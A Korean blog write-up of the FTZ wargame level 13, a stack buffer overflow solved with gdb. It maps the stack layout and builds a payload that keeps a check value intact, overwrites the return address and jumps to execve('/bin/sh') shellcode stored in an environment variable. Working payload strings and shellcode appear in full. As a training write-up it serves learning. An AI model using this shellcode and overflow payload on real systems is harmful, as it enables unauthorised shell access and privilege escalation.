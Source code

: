 ```yaml
---
title:  "[FTZ] level 13"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-17 00:14:59

---
```


# level 13

**level13 / have no clue**

힌트

![image](https://user-images.githubusercontent.com/69203345/146544043-462d8911-ca49-4a67-b3c4-314b640bcaae.png)

생긴걸 보아하니 이전 문제처럼 bof이용 해주면 될듯  
그래도 급하게 할 필요 없기 때문에 코드부터 봅시다

i가 buf보다 먼저 선언됐으므로 i의 시작주소가 buf보다 높다.

4바이트 정수형 변수 i에 0x1234567을 저장  
문자형 buf에는 1024사이즈 할당  0x1234567을 할당  
3094는 level13의 PID  
argv에 할당받은 입력이 한개를 넘으면 if수행  
argv[1] 을 buf에 복사

변수 i값이 아니라면 if수행  
print 수행후 프로그램 종료  

/tmp 폴더로 복사해서 gdb로 열기

![image](https://user-images.githubusercontent.com/69203345/146546755-d6a68c12-7746-4569-88f6-b812816bfe54.png)

올게 왔다

0x080484a3 <main+3>:    sub    esp,0x418

0x418을 10진수로 바꾸게 되면 1048이 나오고  
stack에 1048byte의 영역을 할당

0x080484a9 <main+9>:    mov    DWORD PTR [ebp-12], 0x1234567

i의 시작위치 = ebp -12
i에게 12바이트를 할당 했는데 i는 long형태로 4바이트만 차지하고,나머지 8바이트는 dummy

0x080484b0 <main+16>:   sub    esp,0x8

스택에 총 8byte를 할당합니다. 이번문장은 dummy를 의미함

0x080484dd <main+61>:   call   0x8048390  <strcpy>

buf의 시작 위치는 ebp - 1048입니다

낮은주소

buf[1024] [ebp-1048]
dummy[12]
i[4] [ebp-12]
dummy[8]
sfp[4]
ret[4]

높은주소

buf의 주소는 ebp-1048이고  
i의 주소는 ebp-12이므로  
1048에서 1024를 채운후 i(ebp-12)와의 빈 공간은 dummy(12)로 한다


>참고  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.

그러면 buf[1024] 와 dummy[12]를 A로 채워주고, i를 01234567로 채워주고, dummy[8]과 SFP[4]를 다시 A로 채워주고 리턴주소를 덮어주면 될 것 같습니다.
 > \`python -c 'print "A"*1036+"\x67\x45\x23\x01"+"A"*12+"RETN"'`

 이 될것이다

 이제 그럼 환경변수를 등록
 > export EGG=\`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

>echo 'int main(){printf("ADDR->0x%x\n",getenv("EGG"));}'> getenv.c

 ./getenv를 실행시켰을 때 나오는 ADDR이 페이로드를 구성할 때 return 부분에 들어가는 주소

 ![image](https://user-images.githubusercontent.com/69203345/146562331-92c66527-4c2f-4df1-b9c0-7fac299c986a.png)

 주소는 0xbffffc9a  
 따라서

 > \`python -c 'print "A"*1036+"\x67\x45\x23\x01"+"A"*12+"\x9a\xfc\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/146564363-3aea097f-89e4-4245-b611-4314f8c32272.png)

 풀면 풀수록 감이 온다..!
